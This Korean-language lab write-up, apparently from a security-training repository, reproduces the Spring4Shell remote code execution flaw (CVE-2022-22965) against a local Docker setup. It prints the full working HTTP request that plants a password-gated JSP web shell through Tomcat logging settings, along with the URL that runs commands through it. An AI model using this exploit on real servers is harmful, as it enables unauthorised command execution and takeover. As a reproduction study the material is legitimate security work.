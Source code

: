 # Spring Framework Data Binding Remote Code Execution on JDK 9+ (CVE-2022-22965)

> 화이트햇 스쿨 3기 - [이호영 (@lhywk)](https://github.com/lhywk)

<br/>

### 요약

- `Spring Framework`의 `Data Binding` 기능을 악용하면, RCE가 가능함  
- 특정 HTTP 파라미터를 조작하여 공격자가 임의의 `.jsp` 웹쉘을 서버에 업로드할 수 있음  
- 업로드된 웹쉘을 통해 서버 내부 명령어 실행 및 시스템 권한 탈취 시도가 가능함  
- 해당 취약점은 `Spring Framework 5.3.17` 및 `JDK 9+` 환경에서 발생

<br/>

### 환경 구성

- `docker-compose up -d` 명령어로 테스트 환경 실행  
- `http://localhost:8080/` 접속하여 Spring 앱 정상 동작 확인

<br/>

### 취약점 재현

Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보낸다.
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```
![PoC Upload](./poc1.png)

그런 다음 JSP 웹쉘을 사용하여 임의의 명령을 성공적으로 실행할 수 있다.

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

<br/>

### 결과

![result1 Upload](./result1.png)
![result1 Upload](./result2.png)

- `class.module.classLoader.resources.context.parent.pipeline.first.pattern` 등의 속성을 조작하여 웹쉘 JSP 파일 생성
- JSP 경로는 `/tomcatwar.jsp`



- JSP 웹쉘이 너무 커지는 것을 방지하기 위해 로그 경로 초기화 필요
- 아래 요청을 통해 `pattern` 속성 제거:

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
